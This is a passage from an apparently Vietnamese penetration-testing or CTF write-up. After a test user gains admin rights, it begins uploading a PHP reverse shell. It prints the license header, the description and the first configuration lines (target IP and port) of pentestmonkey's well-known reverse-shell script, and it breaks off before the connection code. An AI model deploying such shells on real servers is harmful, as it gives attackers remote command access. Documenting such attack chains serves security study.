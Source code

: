 ![image](https://hackmd.io/_uploads/HkE-DPyzR.png)

Kết quả user `poc` đã có quyền admin

![image](https://hackmd.io/_uploads/B1qIPvyGR.png)

## Upload reverse shell

PHP reverse shell của [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

```php=
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1414;       // CHANGE THIS
```